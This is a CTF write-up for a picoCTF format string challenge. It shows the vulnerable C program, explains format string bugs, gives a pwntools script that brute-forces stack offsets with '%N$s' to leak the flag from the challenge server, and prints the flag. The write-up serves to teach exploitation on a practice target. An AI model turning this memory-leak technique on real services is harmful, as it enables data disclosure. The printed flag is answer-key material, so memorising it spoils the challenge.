 ```yaml
---
title: "Fessemisk - CTF Writeup"
categories: CISK CTF
tags: rev
header:
    overlay_image: https://images.unsplash.com/photo-1519708227418-c8fd9a32b7a2?ixlib=rb-1.2.1&ixid=MnwxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8&auto=format&fit=crop&w=1470&q=80
    overlay_filter: 0.5
    teaser: https://images.unsplash.com/photo-1519708227418-c8fd9a32b7a2?ixlib=rb-1.2.1&ixid=MnwxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8&auto=format&fit=crop&w=1470&q=80
tagline: "Dette er et eksempel på en post med custom forfatter"
read_time: true
published: true
toc: true
author: Billy Rick
---
```


## Description
Story telling class 1/2  
I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/123/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/123/vuln.c). And connect with it using:  
`nc saturn.picoctf.net PORT`

## Vulnerable code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story); 
   printf("Here's a story - \n");
   printf(story); // Will print whatever we want, NOT GOOD!!
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```

## What is a format string vulnerability?
[OWASP - Format string attack](https://owasp.org/www-community/attacks/Format_string_attack)  
[Exploiting format string - Stanford](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)  
[LiveOverflow - Format String Exploit bin 0x13](https://www.youtube.com/watch?v=t1LH9D5cuK4)  

In short the format string vulnerability lets us print and write information from the stack.

**OWASP extract:**   
> Below are some format parameters which can be used and their consequences:
> * ”%x” Read data from the stack
> * ”%s” Read character strings from the process’ memory
> * ”%n” Write an integer to locations in the process’ memory

**Example:**    
```c
#include  <stdio.h> 
void main(int argc, char **argv)
{
	// This line is safe
    printf("%s\n", argv[1]);

	// This line is vulnerable
	printf(argv[1]);
}
```

## Solution 
In the vulnerable code, the flag is placed on the stack just under the input buffer: 

```c
void vuln(){
   char flag[BUFSIZE];
   char story[128];
```
We can send `%1$s` to the program to view the first parameter on the stack. We will use this to brute force the location of the flag and print it.

**Exploit:**  
```python
from pwn import *

host, port = "saturn.picoctf.net", 55904

# Create remote or local process based on CLI
def new_process():
    if args.LOCAL:
        return process("./vuln")
    else:
        return remote(host, port)


# Brute force location of flag on the stack
with context.quiet:
    for i in range(30):
        p = new_process()
        p.recvuntil(b">>")
        p.sendline("%" + str(i) + "$s")
        p.recvuntil("\n")
        out = p.recvall()
        try:
            flag = out.decode()
        except UnicodeDecodeError:
            pass
        if "CTF{" in flag:
            print(f"pico{flag}")
```
### Flag
`picoCTF{L34k1ng_Fl4g_0ff_St4ck_6aea3c7c}`